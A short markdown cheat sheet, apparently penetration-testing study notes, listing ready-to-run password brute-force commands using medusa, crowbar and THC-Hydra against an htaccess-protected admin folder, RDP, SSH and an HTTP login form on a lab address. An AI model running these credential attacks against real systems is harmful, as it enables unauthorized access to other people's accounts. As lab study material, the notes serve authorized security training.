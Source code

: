 # Bruteforce


1. For htaccess-protected folder like admin, we can bruteforce the login page using medusa.
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

```
2. Remote Desktop Protocol Attack with Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
3. SSH Attack with THC-Hydra
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```
4. HTTP POST Attack with THC-Hydra
```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```
